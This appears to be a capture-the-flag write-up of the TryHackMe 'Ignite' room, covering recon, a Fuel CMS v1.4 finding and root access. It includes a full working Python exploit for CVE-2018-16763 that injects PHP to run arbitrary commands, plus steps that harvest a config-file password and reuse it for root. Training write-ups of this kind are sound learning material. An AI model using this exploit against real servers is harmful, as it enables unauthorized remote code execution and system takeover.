 > Thu 31 Jul 2025
> al3xx

![[Write-ups/TryHackMe/Linux/img/s1.png|350]]

# Ignite [Link](https://tryhackme.com/room/ignite)
## 1. Reconnaissance
### TCP Scan

```bash
sudo nmap -sCV -p- -T4 -oN nmap.txt 10.10.141.45
```

| Port | Service | Version                        |
| ---- | ------- | ------------------------------ |
| 80   | http    | Apache httpd 2.4.18 ((Ubuntu)) |

Based on the scan results, we can observe that `port 80` is open and running an **Apache HTTP server**

## 2. Enumeration

### Web Enumeration

![[Write-ups/TryHackMe/Linux/img/s6.png]]

The website reveals it's running **Fuel CMS v1.4**.

**Vulnerability Identified:**
- **CVE:** CVE-2018-16763
- **Description:** Remote Code Execution.

While exploring, I also discovered a directory:

## 3. Exploitation

I used the following proof-of-concept (PoC) to exploit CVE-2018-16763:


```python
import requests
import sys
from urllib.parse import quote
import argparse

def prep_payload(url, cmd):
    # Ensure URL ends with /
    if not url.endswith('/'):
        url += '/'
    return url + 'fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27' + quote(cmd) + '%27%29%2b%27'

def send_payload(payload, proxy=None, timeout=10):
    try:
        proxies = {"http": proxy, "https": proxy} if proxy else None
        r = requests.get(payload, proxies=proxies, timeout=timeout, verify=False)
        r.raise_for_status()  # Raise exception for bad status codes
        return r.text
    except requests.exceptions.RequestException as e:
        print(f"[-] Error sending payload: {e}")
        return None

def start_up():
    parser = argparse.ArgumentParser(
        formatter_class=argparse.RawTextHelpFormatter,
        epilog='Example: python ' + sys.argv[0] + ' -u http://vulnsite.com -c whoami\nCreated By: @shoamshilo 2021')
    parser.add_argument('-u', '--url', required=True, help='The url for the fuel cms application.')
    parser.add_argument('-c', '--cmd', required=True, help='The command that you want to run.')
    parser.add_argument('--proxy', help='Add a proxy passthrough.')
    parser.add_argument('--timeout', type=int, default=10, help='Request timeout in seconds.')
    return parser.parse_args()

if __name__ == '__main__':
    args = start_up()
    print('[+] Preparing the payload')
    payload = prep_payload(args.url, args.cmd)
    print(f'[+] Sending payload to: {payload}')
    response = send_payload(payload, args.proxy, args.timeout)

    if response:
        print('[+] Payload executed successfully')
        print(response)
    else:
        print('[-] Failed to execute payload')

```

**🏁 First Flag**
While running commands via RCE, I discovered: `/home/www-data/flag.txt`

## 3.Credential Discovery
```bash
cat * | grep password // shows an alert in the admin backend if this is the admin password | ['password'] The password used to connect to the database 'password' => 'mememe'
```

## 4.Privilege Escalation
```bash
su root
Password: mememe
```

after login as root I discovered: `/root/root.txt`


